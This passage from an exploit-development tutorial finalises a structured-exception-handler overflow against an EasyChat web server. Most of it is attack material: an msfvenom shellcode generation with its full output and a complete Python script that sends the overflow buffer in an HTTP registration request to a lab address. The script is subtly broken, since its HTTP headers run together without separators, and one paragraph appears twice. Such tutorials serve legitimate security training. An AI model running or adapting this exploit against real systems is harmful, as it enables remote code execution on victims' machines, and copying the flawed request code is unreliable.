042E6E50  1B1A1918
042E6E54  1F1E1D1C
042E6E58  23222120
042E6E5C  29285724 ←
042E6E60  2D2C202A ←

...

```

5. **Finalize the exploit.**

Knowing which characters are bad for this software, we can finally generate shellcode using msfvenom. We can also add it to the exploit, replacing the single breakpoint.

Generate the shellcode to execute `calc.exe` using msfvenom.

`msfvenom -p windows/exec cmd=calc.exe exitfunc=thread -b "\x00\x25\x2b" -f c`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 952 bytes
unsigned char buf[] = 
"\xb8\xb5\xa7\x1a\x31\xd9\xc7\xd9\x74\x24\xf4\x5a\x29\xc9"
"\xb1\x31\x31\x42\x13\x83\xc2\x04\x03\x42\xba\x45\xef\xcd"
"\x2c\x0b\x10\x2e\xac\x6c\x98\xcb\x9d\xac\xfe\x98\x8d\x1c"
"\x74\xcc\x21\xd6\xd8\xe5\xb2\x9a\xf4\x0a\x73\x10\x23\x24"
"\x84\x09\x17\x27\x06\x50\x44\x87\x37\x9b\x99\xc6\x70\xc6"
"\x50\x9a\x29\x8c\xc7\x0b\x5e\xd8\xdb\xa0\x2c\xcc\x5b\x54"
"\xe4\xef\x4a\xcb\x7f\xb6\x4c\xed\xac\xc2\xc4\xf5\xb1\xef"
"\x9f\x8e\x01\x9b\x21\x47\x58\x64\x8d\xa6\x55\x97\xcf\xef"
"\x51\x48\xba\x19\xa2\xf5\xbd\xdd\xd9\x21\x4b\xc6\x79\xa1"
"\xeb\x22\x78\x66\x6d\xa0\x76\xc3\xf9\xee\x9a\xd2\x2e\x85"
"\xa6\x5f\xd1\x4a\x2f\x1b\xf6\x4e\x74\xff\x97\xd7\xd0\xae"
"\xa8\x08\xbb\x0f\x0d\x42\x51\x5b\x3c\x09\x3f\x9a\xb2\x37"
"\x0d\x9c\xcc\x37\x21\xf5\xfd\xbc\xae\x82\x01\x17\x8b\x6d"
"\xe0\xb2\xe1\x05\xbd\x56\x48\x48\x3e\x8d\x8e\x75\xbd\x24"
"\x6e\x82\xdd\x4c\x6b\xce\x59\xbc\x01\x5f\x0c\xc2\xb6\x60"
"\x05\xa1\x59\xf3\xc5\x08\xfc\x73\x6f\x55"; ←
```

Knowing which characters are bad for this software, we can finally generate shellcode using msfvenom. We can also add it to the exploit, replacing the single breakpoint.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# msfvenom shellcode for executing calc.exe
shellcode = (
    "\xb8\xb5\xa7\x1a\x31\xd9\xc7\xd9\x74\x24\xf4\x5a\x29\xc9"
    "\xb1\x31\x31\x42\x13\x83\xc2\x04\x03\x42\xba\x45\xef\xcd"
    "\x2c\x0b\x10\x2e\xac\x6c\x98\xcb\x9d\xac\xfe\x98\x8d\x1c"
    "\x74\xcc\x21\xd6\xd8\xe5\xb2\x9a\xf4\x0a\x73\x10\x23\x24"
    "\x84\x09\x17\x27\x06\x50\x44\x87\x37\x9b\x99\xc6\x70\xc6"
    "\x50\x9a\x29\x8c\xc7\x0b\x5e\xd8\xdb\xa0\x2c\xcc\x5b\x54"
    "\xe4\xef\x4a\xcb\x7f\xb6\x4c\xed\xac\xc2\xc4\xf5\xb1\xef"
    "\x9f\x8e\x01\x9b\x21\x47\x58\x64\x8d\xa6\x55\x97\xcf\xef"
    "\x51\x48\xba\x19\xa2\xf5\xbd\xdd\xd9\x21\x4b\xc6\x79\xa1"
    "\xeb\x22\x78\x66\x6d\xa0\x76\xc3\xf9\xee\x9a\xd2\x2e\x85"
    "\xa6\x5f\xd1\x4a\x2f\x1b\xf6\x4e\x74\xff\x97\xd7\xd0\xae"
    "\xa8\x08\xbb\x0f\x0d\x42\x51\x5b\x3c\x09\x3f\x9a\xb2\x37"
    "\x0d\x9c\xcc\x37\x21\xf5\xfd\xbc\xae\x82\x01\x17\x8b\x6d"
    "\xe0\xb2\xe1\x05\xbd\x56\x48\x48\x3e\x8d\x8e\x75\xbd\x24"
    "\x6e\x82\xdd\x4c\x6b\xce\x59\xbc\x01\x5f\x0c\xc2\xb6\x60"
    "\x05\xa1\x59\xf3\xc5\x08\xfc\x73\x6f\x55"
)

# Buffer to overflow the SEH
buffer = "A" * 217  # Padding to reach the SEH overwrite point
buffer += "\xeb\x06\x90\x90" # Short jump (JMP) instruction to bypass the SEH handler
buffer += "\x21\x7f\x01\x10" # Address of "POP ESI; POP ECX; RET" instruction in EasyChat
buffer += shellcode # The shellcode to be executed after the SEH bypass
buffer += "DDDD" * (200 - len(shellcode)) # Additional padding to ensure the buffer length

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Let's launch the latest exploit against the software without attaching a debugger to it. The calculator should show up!

This process illustrates how to fuzz a Windows application, analyze crashes, and exploit vulnerabilities.

---
---
